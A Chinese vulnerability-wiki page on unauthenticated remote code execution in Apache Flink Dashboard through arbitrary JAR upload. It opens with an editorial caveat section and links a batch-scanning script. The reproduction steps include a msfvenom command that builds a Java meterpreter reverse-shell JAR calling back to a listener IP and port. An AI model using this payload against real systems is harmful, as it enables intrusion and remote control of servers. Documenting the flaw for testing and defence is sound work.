



# Apache Flink Dashboard 未授权访问-远程代码命令执行

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可访问且没有外围认证的 Dashboard；上传并执行作业权限
- 证据范围：与其他 Dashboard 上传教程同一利用面，末尾正确提醒 Unauthorized/token 空不是未授权成功。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- <=1.9.1 最新版本缺日期和边界依据
- 只给生成 JAR 命令，上传执行过程全为图片；上传 alewong Jar 拼写不明
- 无独立漏洞根因、完整请求或修复建议

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

二、漏洞影响
------------

\<= 1.9.1(最新版本)

三、复现过程
------------

### 1、

    msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar

### 2、

上传alewong Jar包

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

    Ps:
    当注释掉 if 'Unable to load requested file' in str(data):
    之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权
